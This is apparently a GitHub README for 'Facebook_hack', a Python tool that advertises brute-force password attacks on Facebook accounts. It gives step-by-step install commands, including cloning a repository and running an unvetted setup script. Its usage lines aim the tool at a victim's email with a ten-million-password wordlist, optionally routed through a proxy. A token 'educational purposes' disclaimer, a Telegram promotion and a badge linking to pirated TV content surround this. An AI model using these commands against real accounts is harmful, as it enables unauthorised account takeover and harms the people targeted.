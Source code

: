 
<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>

# Facebook_hack
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://t.me/Dragonarlobot)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Arlo-dragony/HACHER-DRAGON-FACEBOOK-ATTACK.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/dragon
  
